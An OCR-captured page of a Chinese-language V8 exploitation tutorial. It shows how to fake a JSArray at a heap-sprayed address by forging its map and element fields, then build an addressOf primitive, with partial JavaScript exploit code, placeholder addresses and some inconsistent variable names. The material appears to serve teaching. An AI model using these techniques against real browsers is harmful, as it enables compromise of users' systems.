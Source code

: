   

对于该漏洞，提出以下问题：

◆在哪里伪造对象？要求稳定，比如你在`addr`这个位置伪造了一个对象，那么这块内存就不能被释放或者内存的内容不能被破坏。

◆如何进行伪造？伪造一个对象，比如`JSArray`，其基本字段有`map/property/len/element`，这里的`property/len`好说，关键是`map/element`该指向何处。

  

通过之前讲的通用堆喷技术，我们可以获得一块地址稳定的`element`区域，这个大对象的地址是已知的，并且不受`gc`的影响，而且其内容还是可控的，所以在这里伪造再合适不过。

  

var spray_array = new Array(0xf700).fill(1.1); // 这里是 double 数组  
var element_start_addr = ?; // element_start_addr 就是 spray_array 的 element 地址，其是固定的  
var data_element_start_addr = element_start_addr + 7; // element 数据部分的其实位置  
var map_addr = data_element_start_addr + 0x1000; // 伪造的 map 的地址  
var fake_object_array_addr = map_addr + 0x1000; // 伪造的对象的地址，一般漏洞利用中都是伪造 JSArray  

  

然后就是考虑如何去伪造`map`，这里需要知道的时在取对象时，会检查`map`，但是只是检查其类型，所以这里我们只需要伪造其前 16 字节即可，这里调试即可知道，前16字节基本是不变的。

> 这里可能得把`map`的前8字节改为一个可以访问的地址

// 这里伪造的 double 类型的 map  
spray_array[(map_addr        -data_start_addr) / 8] = u64_to_f64(0x1604040408002119n);  
spray_array[(map_addr 	     -data_start_addr) / 8 + 1] = u64_to_f64(0x0a0007ff11000834n);  

  

然后是伪造对象，`map`字段已经伪造好了，那么`element`该如何伪造呢？这里我们在利用上述通用堆喷技术得到一个地址固定的`element`区域（理由后面你就懂了）。

  

var leak_object_array　= new Array(0xf700).fill({}); // 这里是 element 数组  
var leak_element_start_addr = ?;// leak_element_start_addr 就是 leak_object_array 的 element 地址，其是固定的  
// 这里的 0x6cd 具体调试一下就行，特定版本是固定的，因为 JSArray 不需要这个  
spray_array[(fake_object_addr-data_start_addr) / 8] = pair_u32_to_f64(map_addr+1, 0x6cd);  
spray_array[(fake_object_addr-data_start_addr) / 8 + 1] = pair_u32_to_f64(leak_element_start_addr, 0x8000);  

  

此时我们就在`fake_object_array_addr`地址处伪造好了一个`JSArray`，其是`double`类型的，并且其`element`指向`leak_element_start_addr`，我们将其称作`fake_object。`  
  
然后通过任意地址对象伪造漏洞获取这个对象`fake_object。`

`   `

var fake_object = trigger(); // 这里 trigger 泛指通过漏洞获取该伪造的对象  

  

此时就可以构造`addressOf`原语了：

> `leak_object_array`和`fake_object`指向的是同一个`element`，而`leak_object_array`将其解析为`element`类型数组，而`fake_object`将其解析为`double`数组

function addressOf(obj) {  
    leak_object_array[0] = obj;  
    return get_fl(fake_object[0]);  
}  

